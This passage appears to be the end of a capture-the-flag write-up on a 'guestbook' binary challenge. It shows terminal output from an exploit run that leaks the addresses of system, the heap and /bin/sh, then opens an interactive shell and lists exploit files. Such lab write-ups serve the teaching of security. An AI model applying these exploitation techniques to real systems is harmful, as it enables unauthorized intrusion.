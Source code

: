 ```
1: View name
2: Change name
3. Quit
>>
[*] The address of system is: 0xf75b3060
[*] The address of heap is: 0x5685b008
[*] The address of binsh is: 0xf76d7a0f
Which entry do you want to change?
>>>
Enter the name of the new guest.
>>>
[*] Switching to interactive mode
$ 
---------------------------
1: View name
2: Change name
3. Quit
>>$ 3
$ ls
core        leak.py    peda-session-dash.txt       Readme.md
exploit.py  libc.so.6  peda-session-guestbook.txt
guestbook   old.py     peda-session-w.procps.txt
$ w
 23:50:28 up  3:35,  1 user,  load average: 1.03, 0.87, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               20:15    3:35m  6:30   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
```

Just like that, we popped a shell!
 
